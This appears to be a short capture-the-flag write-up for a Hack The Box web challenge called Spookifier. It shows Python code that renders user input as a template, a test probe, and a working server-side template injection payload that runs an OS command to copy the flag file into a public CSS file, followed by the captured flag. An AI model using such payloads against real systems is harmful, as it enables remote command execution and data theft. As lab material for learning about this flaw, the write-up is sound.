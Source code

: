 
#### vulnerable code to SSTI

```text
web_spookifier\challenge\application\util.py
```

```python
def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()
```



```bash
http://161.35.33.46:31648/?text=${{7*7}}
```

![image](s1.png)

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#direct-access-to-os-from-templatenamespace

#### exploit 

```text
http://161.35.33.46:31648/?text=${self.module.cache.util.os.system(%22cp%20flag.txt%20/app/application/static/css/index3.css%22)}
```

![image](s2.png)

```text
HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}
```